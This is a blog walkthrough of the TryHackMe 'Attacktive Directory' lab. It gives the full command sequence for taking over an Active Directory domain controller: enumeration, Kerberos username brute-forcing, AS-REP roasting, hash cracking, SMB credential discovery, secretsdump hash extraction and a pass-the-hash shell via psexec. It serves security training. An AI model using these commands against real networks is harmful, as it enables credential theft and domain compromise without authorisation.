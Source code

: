 ```yaml
---
layout: post
title: Attacktive Directory – Try Hack Me
subtitle: Walkthrough
tags: [active,directory]
---
```


99% of Corporate networks run off of Active Directory from this machine you will have a good base understanding on how to exploit such an environment. 

Learning Objectives:

* AD Enumeration
* Kerberos
* Cracking Hashes
* Impacket

[Challenge](https://tryhackme.com/room/attacktivedirectory)

## Task 1

Initiate the VPN connection and deploy the machine

## Task 2 -> Impacket

Install Impacket, this is a collection of Python classes for working with network protocols. More information abou Impacket and have and overview about some of its tool can be found [here](https://www.secureauth.com/labs/open-source-tools/impacket).  
Have a look at [this](https://github.com/SecureAuthCorp/impacket.git) Github repository to learn how to install it.

## Task 3 -> Enumeration 1

We start by adding the IP address of our machine to the /etc/hosts

~~~
echo 10.10.194.183 spookysec.local >> /etc/hosts
~~~

Basic nmap scan to discover what we are working with

~~~
nmap spookysec.local
~~~

![nmap](/img/2020-04-26-AttacktiveDir/nmap.png)

Using the first scan we will use the port discovered and run a more complete scan.

~~~
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,3389 -A -T4 spookysec.local
~~~

![nmapa](/img/2020-04-26-AttacktiveDir/nmapA.png)

From this scan we discover the Domain Name of the machine as well as the the full AD domain. 

## Task 4 -> Enumeration 2

Using enum4linux we are able to enumerate port 139 and 445.
This tool output quite a lengthy output, we will only post the important parts for the walkthrough.

~~~
enum4linux -A  spookysec.local
~~~

![enum](/img/2020-04-26-AttacktiveDir/enum.png)
![enum2](/img/2020-04-26-AttacktiveDir/enum2.png)

We managed to also retrieve information about the full AD domain name and the Domain Name of the machine plus some username that might be useful later. 

We follow using the tool [Kerbrute](https://github.com/ropnop/kerbrute/), which can be installed using the following command:

~~~
go get github.com/ropnop/kerbrute
~~~

Kerbrute is a tool that performs Kerberos pre-auth bruteforcing, in this case we will be using the username bruteforce feature.

~~~
~/go/bin/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt
~~~

![kerbrute](/img/2020-04-26-AttacktiveDir/kerbrute.png)

## Task 5 -> ASREPRoasting

From the output we are able to validate some active usernames.
Once we have discovered a list of usernames we can use a technique called ASREPRoasting, meaning if a user does not have the Kerberos preauthentication property selected it is possible to retrieve the password hash.
Impacket provides a tool called GetNPUsers.py which can query the AD and if the property above is not selective it will export their TGT.

~~~
python3 GetNPUsers.py spookysec.local/svc-admin
~~~

![tgt](/img/2020-04-26-AttacktiveDir/tgt.png)

We are able to retrieve a hash from the svc-admin account, we now proceed to crack the hash using hashcat. In order to discover the mode we can have a look at the [wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes).
We have saved the previous hash in the hash.txt file.

**Note:** If you are using a VM the flag '--force' is required.

~~~
hashcat -m 18200 hash.txt passwordlist.txt --force
~~~

## Task 6 -> Enumeration 3

Having user credentials we can attempt to log into SMB and explore any shares from the domain controller.
This is possible with the tool smbclient, make sure to use the user 'svc-admin' as well as the previous cracked password.

~~~
smbclient -L spookysec.local --user svc-admin
~~~

![smb](/img/2020-04-26-AttacktiveDir/smb.png)

After exploring several shares, we found the file 'backup_credentials.txt'. 

~~~
smbclient \\\\spookysec.local\\backup --user svc-admin
~~~

![smb2](/img/2020-04-26-AttacktiveDir/smb2.png)

Looking at the content of the file we can see it is encoded with Base64. To decode it simply use the following command:

~~~
base64 -d backup_credentials.txt
~~~

## Task 7 -> Elevating Privileges

Using the backup account we can use another tool from Impacket this time called 'secretsdump.py', we will be able to get all the password hashes that this user account has access to.

~~~
python3 secretsdump.py -just-dc backup@spookysec.local
~~~

![secret](/img/2020-04-26-AttacktiveDir/secret.png)

Now we are in possession of the Administrator password hash. The next step will be performing a [Pass the Hash Attack](https://attack.stealthbits.com/pass-the-hash-attack-explained). 
For this we can use another tool from Impacket called 'psexec.py'. For this tool you must paste the complete Administrator hash in the following command:

~~~
python3 psexec.py Administrator:@spookysec.local -hashes <Complete Hash>
~~~

![rce](/img/2020-04-26-AttacktiveDir/rce.png)

Congratulations, you now have complete access to the system, feel free to navigate to each user Desktop and get the flags.
Hope you enjoyed this guide. :)
